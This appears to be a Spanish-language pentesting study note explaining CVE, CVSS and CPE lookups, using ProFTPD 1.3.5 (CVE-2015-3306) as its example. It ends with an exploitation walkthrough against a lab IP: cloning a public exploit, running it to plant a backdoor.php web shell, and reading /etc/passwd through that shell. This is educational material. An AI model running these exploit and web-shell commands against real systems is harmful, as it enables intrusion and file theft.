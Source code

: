 # CVE, CVSS, CPE - Common Vulnerabilities and Exposures

Hay una pagina bastante famosa la cual recopila todas las vulnerabilidades que vayan exsistiendo y les asigna un numero, por lo que este numero sera el identificativo a dicha vulnerabilidad, todo esto se lo proporciona la empresa `mitre` cada vulnerabilidad que vaya saliendo se va implementando en esta base de datos:

URL = [Pagina CVE BB.DD.](https://cve.mitre.org)

Si nosotros buscamos una vulnerabilidad que sospechamos que puede ser vulnerable, podremos buscarlo en el boton de `Search CVE`, por ejemplo si buscamos una version de `FTP` que encontramos en nuestras maquinas de prueba en mi caso la de `Linux - Ubuntu` vimos que era un `ProFTPD 1.3.5`, por lo que si buscamos eso veremos que esta asignado a un `CVE-2015-3306` por lo que tiene una vulnerabilidad que se indica con ese numero y si te metes en dicha vulnerabilidad podremos ver la descripcion de en que consiste esa vulnerabilidad.

Despues te muestra las referencias donde puede encontrar mas informacion sobre esa vulnerabilidad y como se podria aprovechar para poder ser explotada.

Con este identificador que obtenemos, lo que podemos hacer es buscarlo en `google` con el identificador e investigar herramientas que esten creadas en `GitHub` con el lenguaje de programacion que queramos buscar para poder explotar estas vulnerabilidades.

Por ejemplo de esta vulnerabilidad si se busca un poco, podremos encontrar el siguiente repositorio que esta mas actual y asi nos olvidamos de algun posible fallo a la hora de explotarlo con uno mas desactualizado.

URL = [Pagina Exploit CVE-2015-3306](https://github.com/t0kx/exploit-CVE-2015-3306/tree/master)

Si por ejemplo nosotros queremos identificar que nivel de peligrosidad tiene esta vulnerabilidad, podremos hacerlo consultando la siguiente pagina:

URL = [Pagina CVSS Nivel de peligro de un CVE](https://nvd.nist.gov/vuln/search)

Si buscamos la vulnerabilidad que encontramos anteriormente, podremos ver que nos la encuentra y nos indica que es bastante alta de peligro teniendo un `10` sobre `10`:

<figure><img src="../../.gitbook/assets/image (29) (1).png" alt=""><figcaption></figcaption></figure>

Ya que con esta vulnerabilidad puede leer o copiar cualquier fichero del sistema, por lo que es bastante alta.

Cada una de las versiones de software tiene un `CPE` asociado, por lo que cuando sale una vulnerabilidad rapidamente podamos asociarlas con todas las versiones de ese software que se ven afectadas por esta vulnerabilidad, en esta pagina mas abajo se ven los `CPE` que van asociados a esta vulnerabilidad por los que se le puede identificar.

<figure><img src="../../.gitbook/assets/image (30) (1).png" alt=""><figcaption></figcaption></figure>

Hay otra pagina que te engloba todo esto, por la que se puede buscar por el nombre del servicio y version, esta pagina te muestra los resultados con su `CVE` asociado y a parte tambien te muestra el riesgo de dicha vulnerabilidad, te muestra tambien el `PCE` mostrandotelo todo por lo que es mas sencillo de ver:

URL = [Pagina CVE Details](https://www.cvedetails.com)

Y con la vulnerabilidad que hemos encontrado podriamos aprovecharla en la fase de explotacion, que seria algo asi:

```shell
git clone https://github.com/t0kx/exploit-CVE-2015-3306.git
cd exploit-CVE-2015-3306/
```

```shell
./exploit.py --host 192.168.16.129 --port 21 --path /var/www/html
```

Info:

```
[+] CVE-2015-3306 exploit by t0kx
[+] Exploiting 192.168.16.129:21
[+] Target exploited, acessing shell at http://192.168.16.129/backdoor.php
[+] Running whoami: www-data
[+] Done
```

Y si nos vamos al navegador y ponemos lo siguiente:

```
URL = http://192.168.16.129/backdoor.php?cmd=cat /etc/passwd
```

Podremos ver que nos vuelca toda la informacion del archivo `passwd` y mucho mas que podremos hacer, pero esto es para la fase de explotacion.

